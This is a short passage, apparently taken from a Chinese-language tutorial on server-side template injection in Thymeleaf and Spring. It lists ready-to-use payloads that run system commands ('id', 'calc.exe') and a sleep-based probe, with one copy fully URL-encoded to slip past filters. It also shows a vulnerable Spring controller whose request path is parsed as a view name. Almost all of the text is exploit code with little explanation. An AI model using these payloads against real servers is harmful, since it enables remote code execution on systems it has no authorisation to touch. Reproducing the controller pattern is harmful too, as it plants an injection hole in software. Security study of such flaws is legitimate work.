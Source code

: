 ![](img/17-51-23.png)
```java
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x

__${T(java.lang.Thread).sleep(10000)}__::...

  __$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::...
```
### URI可控
当没有返回值时，默认以路径为视图名称进行解析。
```java
    @RequestMapping("/template4/{path}")
    public void templateTwo(@PathVariable String path){
        System.out.print("nothing"+path);
    }
```
```
__${T(java.lang.Runtime).getRuntime().exec("calc.exe")}__::.x

%5f%5f%24%7b%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%2e%65%78%65%22%29%7d%5f%5f%3a%3a%2e%78
```

![](img/17-53-40.png)  
